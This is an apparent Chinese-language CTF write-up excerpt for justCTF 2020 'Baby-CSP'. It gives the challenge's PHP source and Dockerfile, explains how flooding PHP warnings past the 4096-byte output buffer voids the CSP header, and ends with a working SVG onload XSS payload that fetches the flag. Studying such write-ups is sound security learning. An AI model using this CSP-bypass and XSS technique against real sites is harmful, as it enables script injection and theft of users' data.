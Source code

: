 ### 例题
[[justCTF 2020]Baby-CSP](https://hackmd.io/@terjanq/justCTF2020-writeups#Baby-CSP-web-6-solves-406-points)
```php
<?php
  require_once("secrets.php");
$nonce = random_bytes(8);

if(isset($_GET['flag'])){
  if(isAdmin()){
    header('X-Content-Type-Options: nosniff');
    header('X-Frame-Options: DENY');
    header('Content-type: text/html; charset=UTF-8');
    echo $flag;
    die();
  }
  else{
    echo "You are not an admin!";
    die();
  }
}

for($i=0; $i<10; $i++){
  if(isset($_GET['alg'])){
    $_nonce = hash($_GET['alg'], $nonce);
    if($_nonce){
      $nonce = $_nonce;
      continue;
    }
  }
  $nonce = md5($nonce);
}

if(isset($_GET['user']) && strlen($_GET['user']) <= 23) {
  header("content-security-policy: default-src 'none'; style-src 'nonce-$nonce'; script-src 'nonce-$nonce'");
  echo <<<EOT
    <script nonce='$nonce'>
    setInterval(
    ()=>user.style.color=Math.random()<0.3?'red':'black'
    ,100);
    </script>
    <center><h1> Hello <span id='user'>{$_GET['user']}</span>!!</h1>
    <p>Click <a href="?flag">here</a> to get a flag!</p>
    EOT;
}else{
  show_source(__FILE__);
}

// Found a bug? We want to hear from you! /bugbounty.php
// Check /Dockerfile
```
```dockerfile
FROM php:7.4-apache
COPY src-docker/ /var/www/html/
RUN mv "$PHP_INI_DIR/php.ini-development" "$PHP_INI_DIR/php.ini"
EXPOSE 80
```
> 注意
> 通常，在 PHP 中，当您在调用 header（） 之前返回任何主体数据时，调用将被忽略，因为响应已经发送给用户，并且必须先发送标头。在应用程序中，在调用标头之前没有返回显式数据`header("content-security-policy: ...");`但由于警告是首先显示的，因此它们在标头有机会及时到达响应缓冲区之前进入响应缓冲区。 
> PHP 默认响应缓冲为 4096 字节，因此可以通过在 warnings 中提供足够的数据，响应将在 CSP 标头之前发送，从而导致标头被忽略。因此，可以执行我们的 SVG 有效载荷。 警告的大小还有另一个限制（如果我没记错的话，为 1kb），因此需要强制大约 4 个warnings，每个warnings1000 个字符。

![image.png](./images/20231017_2350185437.png)
```html
<script>
    name="fetch('?flag').then(e=>e.text()).then(alert)"
    
    location = 'https://baby-csp.web.jctf.pro/?user=%3Csvg%20onload=eval(name)%3E&alg='+'a'.repeat('292');
    
</script>
```
